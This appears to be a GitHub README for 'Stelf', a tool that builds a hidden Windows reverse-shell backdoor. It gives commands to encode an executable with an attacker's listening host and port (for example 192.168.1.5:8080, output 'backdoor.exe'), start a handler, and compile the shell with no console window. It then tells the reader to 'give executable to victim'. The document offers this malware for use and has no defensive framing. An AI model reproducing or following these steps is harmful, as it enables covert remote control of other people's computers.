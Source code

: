 # Stelf
### Shell That Excercises Limited Fanfare

## Usage


##### Encode your executable:
```
python2 encode.py lhost lport output.exe
```

e.g

```
python2 encode.py 192.168.1.5 8080 backdoor.exe
```
##### Start handler
```
python2 handler.py
```

##### Give executable to victim and voila!


## Compiling the executable yourself

#### Steps to Install:

- Install Python2.7
- Install Microsoft Visual C++ 9.0
- pip install -r requirements.txt

Compile the shell manually:

```
pyinstaller --noconsole --onefile shell.py
```

Your file will be in dist/shell.exe

Enjoy!
